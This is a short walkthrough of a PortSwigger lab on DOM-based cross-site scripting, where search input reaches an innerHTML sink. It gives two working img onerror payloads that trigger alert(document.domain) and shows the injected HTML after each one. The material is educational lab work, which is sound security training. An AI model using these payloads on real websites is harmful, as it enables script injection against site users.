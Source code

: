 # DOM XSS in `innerHTML` sink using source

## This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability in the search blog functionality. It uses an `innerHTML` assignment, which changes the HTML contents of a `div` element, using data from `location.search`.

## To solve this lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that calls the `alert` function.

### Note: The `innerHTML` sink doesn't accept `script` elements on any modern browser, nor will `svg onload` events fire. This means you will need to use alternative elements like `img` or `iframe`

### step1

search test on search box

`<h1><span>3 search results for '</span><span id="searchMessage">test</span><span>'</span></h1>

search "test
`<h1><span>3 search results for '</span><span id="searchMessage">"test</span><span>'</span></h1>

### step2

search
`<img src=1 onerror=alert(document.domain)>`

`<h1><span>0 search results for '</span><span id="searchMessage"><img src="1" onerror="alert(document.domain)"></span><span>'</span></h1>`
pop up will come

now
`"><img src=1 onerror=alert(document.domain)>`
